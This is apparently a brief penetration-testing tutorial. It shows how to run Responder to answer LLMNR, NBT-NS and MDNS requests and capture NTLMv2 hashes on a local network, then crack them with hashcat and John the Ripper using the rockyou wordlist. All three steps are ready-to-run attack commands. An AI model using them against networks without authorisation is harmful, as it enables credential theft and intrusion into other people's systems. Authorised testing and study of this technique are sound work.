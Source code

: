 ### **STEP 1. STARTING RESPONDER**

To begin, ensure that Responder is installed on your system. If it's not already installed, follow these steps to install it:

1.  Update your package list:  
    `sudo apt update`
2.  Install Responder:  
    `sudo apt install responder`
3.  Run Responder with default settings: Replace ens224 with the name of your network interface.  
    `sudo responder -I ens224`

### **STEP 2. RESPONDER OPERATIONAL OVERVIEW**

Responder actively listens for LLMNR, NBT-NS, and MDNS requests on your network and responds to them. When it captures a hash, it saves it in the /usr/share/responder/logs directory. You can monitor the activity either directly in the terminal or by checking the log files.

1.  Terminal Output: Responder displays captured hashes and other relevant information directly in the terminal.
2.  Log Files: Captured hashes are saved in the /usr/share/responder/logs directory.
3.  Captured Data: Typically, Responder captures NTLMv2 hashes and logs them, providing real-time updates in the terminal.

### **STEP 3. CRACKING NTLMV2 HASHES**

Once you have captured the hashes, you can use tools like Hashcat or John the Ripper to crack them. The following commands demonstrate how to crack NTLMv2 hashes using the rockyou.txt wordlist.

1.  Using Hashcat  
    `hashcat -m 5600 captured_ntlmv2 /usr/share/wordlists/rockyou.txt`
2.  Using John the Ripper  
    `john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt captured_ntlmv2.txt`